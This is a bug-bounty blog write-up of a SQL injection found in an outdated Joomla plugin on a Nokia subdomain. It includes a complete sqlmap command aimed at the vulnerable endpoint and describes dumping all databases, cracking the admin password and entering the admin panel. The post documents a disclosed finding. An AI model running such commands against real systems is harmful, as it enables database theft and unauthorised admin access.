 ```yaml
---
title: "SQL inection on gdclive.nokia.com"
date: 2019-11-1T00:00:00+00:00
toc: false
images:
tags:
  - bugbounty
---
```



Hi, this blog about SQL Injection in Nokia.com Allowed me to Dump all database

### Full POC :

when I'm visiting this domain gdclive.nokia.com I've found something

First: this domain has been used an old version of Joomla CMS

let's scan it using the joomscan tool for dumping all pieces of information about Joomla (plugins, version, etc..)

All results :
```
Joomla Version: 3.1
Plugins: JCK Editor (6.4.4)
```
searching for JCK Editor in exploit-db.com
and I've found this exploit https://www.exploit-db.com/exploits/45423
let's exploit it :D

<img src='https://1.bp.blogspot.com/-LgYxMfeJKhs/Xscwx2tKONI/AAAAAAAAEMs/HJ5I5jgXFv8ExESVK3bm0Mk2hpQWbDiagCK4BGAsYHg/nokiasql.png'>

Worked ..!
you can see the version of the database :D

this is the time of SQLMAP Tool

<img src='https://1.bp.blogspot.com/-ab46BpK-smI/XscxAQOmJ7I/AAAAAAAAEM4/SmsR9X4vGKUDxJttE5KqF6nwhdH_nPgIwCK4BGAsYHg/sqlmap-sqlmap-everywhere.jpg'>

```bash
$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --current-db --current-user
```
<img src='https://1.bp.blogspot.com/-IbBm5REMsIk/XscwNZ7ixwI/AAAAAAAAEMM/0ggiZ2zzOnstGv_qYIm6NOJG1FOzIcRtQCK4BGAsYHg/sql1.png'>

you can see the current user and the name of the database :)
After dumping all databases using the `--all` option and unencrypt the password of the admin account let's login in admin panel

<img src='https://1.bp.blogspot.com/-87ctqF3EmDM/XscxFpvVAhI/AAAAAAAAENE/Cgi-Kfnjxco0cND_FONrVmsOWySdiu_SQCK4BGAsYHg/cp.jpg'>
PWNED :D

You can see this <a href='https://drive.google.com/file/d/1bajARVMgUHBcN7FPCtRA_Bc7-SX656x4/view?usp=sharing'>video</a> about this bug

<img src='https://1.bp.blogspot.com/-JdAGAWLC5yA/XscxTfP79KI/AAAAAAAAENc/rQY_TFPpBuMSjb5fhP36B9O6nrndFtSjgCK4BGAsYHg/nokia_rep.png'>

Thanks ;0

